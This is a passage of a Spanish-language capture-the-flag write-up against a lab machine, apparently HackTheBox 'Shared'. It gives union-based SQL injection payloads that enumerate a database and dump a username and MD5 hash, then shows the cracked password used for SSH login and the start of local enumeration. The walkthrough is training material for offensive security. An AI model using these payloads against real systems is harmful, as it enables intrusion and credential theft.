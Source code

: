 Solo hay dos bases de datos enumeremos las tablas de la base de datos checkout.
```bash
> ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='checkout'-- -
user,product
```
Enumeremos las columnas de la tabla user.
```bash
> ' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='checkout' and table_name='user'-- -
id,username,password
```
Ahora simplemente veamos el contenido de estas columnas, voy a usar group_concat() para poder ver todos los datos juntos y 0x3a para que me separe cada campo con ":" puntos.
```bash
> ' union select 1,group_concat(username,0x3a,password),3 from user-- -
james_mason:fc895d4eddc2fc12f995e18c865cf273
```
Obtenemos un usuario y una contraseña en md5, este hash lo podemos intentar romper en [Crackstation](https://crackstation.net/).
![](/assets/img/shared/hash.png)

Obtenemos la contraseña en texto claro.
## Intrusion
Podemos usar estas credenciales para conectarnos por ssh.
```bash
❯ sshpass -p 'Soleil101' ssh james_mason@10.10.11.172
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ 
```
Si hacemos un id veremos que estamos en el grupo developer.
```bash
james_mason@shared:/tmp/enum$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```
Si buscamos archivos y directorios que pertenezcan al grupo developer, encontramos un directorio.
```bash
james_mason@shared:/$ find / -group developer 2>/dev/null 
/opt/scripts_review
```
